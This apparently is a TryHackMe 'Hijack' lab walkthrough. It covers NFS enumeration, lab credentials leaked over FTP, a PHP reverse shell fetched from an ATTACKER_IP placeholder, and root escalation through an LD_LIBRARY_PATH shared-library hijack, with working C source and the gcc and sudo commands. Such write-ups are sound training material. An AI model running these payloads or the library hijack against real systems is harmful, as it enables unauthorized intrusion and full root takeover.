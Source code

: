 # THM-Hijack

### Nmap result

### Mounting NFS

We will use `nfsshell` to mount the shared folder.

We see that there is a file called `for_employees.txt`, we will issue a `GET` command.

Inside the .txt file we see a ftp credential.

`ftpuser:W3stV1rg1n14M0un741nM4m4`

We then login to ftp using the credential.

```
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Aug 08 19:28 .
drwxr-xr-x    2 1002     1002         4096 Aug 08 19:28 ..
-rwxr-xr-x    1 1002     1002          220 Aug 08 19:28 .bash_logout
-rwxr-xr-x    1 1002     1002         3771 Aug 08 19:28 .bashrc
-rw-r--r--    1 1002     1002          368 Aug 08 19:28 .from_admin.txt
-rw-r--r--    1 1002     1002         3150 Aug 08 19:28 .passwords_list.txt
-rwxr-xr-x    1 1002     1002          655 Aug 08 19:28 .profile
```

We will then use the `GET` command to download the files.

We then get a passwords list.

`admin:uDh3jCQsdcuLhjVkAy5x`

We will then exploit the text box to inject code or RCE.

We will upload a .php reverse shell.

`wget ATTACKER_IP:PORT/rev.php`

and then change the URL to `\rev.php`

We then use `linpeas.sh` and we see a password.

When doing `sudo -l` we can see that rick can run application as sudo.

```
rick@Hijack:/tmp$ sudo -l
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

By exploiting the LD_LIBRARY_PATH (https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

We then create a C file and name it `anyname.c` and save it to `/tmp`

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

and run the `GCC` command

`gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/anyname.c`

then we will run the sudo command

`sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2`

We then can get a root.



`rick:"N3v3rG0nn4G1v3Y0uUp`




